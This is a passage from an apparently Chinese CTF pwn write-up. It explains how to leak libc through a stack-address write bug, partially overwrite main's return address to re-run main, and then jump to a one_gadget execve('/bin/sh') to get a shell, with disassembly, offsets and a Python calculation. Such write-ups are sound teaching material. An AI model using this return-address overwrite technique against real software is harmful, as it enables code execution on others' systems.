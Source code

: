 先前被改写的栈地址，在之后的  `write(1, &v5[8 * HIDWORD(v2)], 6uLL);`中又被泄漏出来

这里可以选择`readi()`读`3`泄漏程序的基址，也可以选择`readi()`读`5`泄漏`libc`的基址

泄漏程序基址似乎没啥用

虽然开了随机化保护，但是`libc`函数的后三位是不变的

于是可以覆盖`main`的返回地址`__libc_start_main+235`的末两位

### 0x3 漏洞利用

题目给了`libc`，看一下`__libc_start_main`，其中`0x00020830`是`__libc_start_main+235`

```assembly
0x00020808      488d442420     lea rax, [rsp + 0x20]
0x0002080d      644889042500.  mov qword fs:[0x300], rax
0x00020816      488b059b363a.  mov rax, qword [reloc.__environ_184]
0x0002081d      488b742408     mov rsi, qword [rsp + 8]
0x00020822      8b7c2414       mov edi, dword [rsp + 0x14]
0x00020826      488b10         mov rdx, qword [rax]
0x00020829      488b442418     mov rax, qword [rsp + 0x18]
0x0002082e      ffd0           call rax
0x00020830      89c7           mov edi, eax
```

这题的关键是，想要完成攻击，修改栈地址的漏洞至少要利用__两次__：泄漏`libc`一次，`getshell`一次

`__libc_start_main`中`0x0002082e`这里的`call rax`就是`call main`

所以，覆盖`__libc_start_main+235`的末两位为`08`

这样既可以泄漏`__libc_start_main`，又能让程序再执行一遍`main`

泄漏出来`libc`后计算`one_gadget`的地址：

```shell
% one_gadget ./libc-2.23.so                 
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL
```

```python
offset_addr = 0x20808
offset_one_gadget = 0x45216
one_gadget = addr - offset_addr + offset_one_gadget
```

```assembly
[*] ret: 0x7f2f53727808
[*] one_gadget: 0x7f2f5374c216
```

在第二次执行`main`时，覆盖返回地址为`one_gadget`即可`getshell`



对了，题目中这里，有提示要再次执行`main()`：

```c
  if ( flag1 == 1 )
  {
    read_n(&e99 + 8 * v3, 8LL);
    puts(aE99p1ant_1);  
    flag1 = 0;
  }
  else
  {
    puts(&byte_15D8);  // 嗯？！世界线……被改变了，我的Reading Steiner触发了！
  }
```
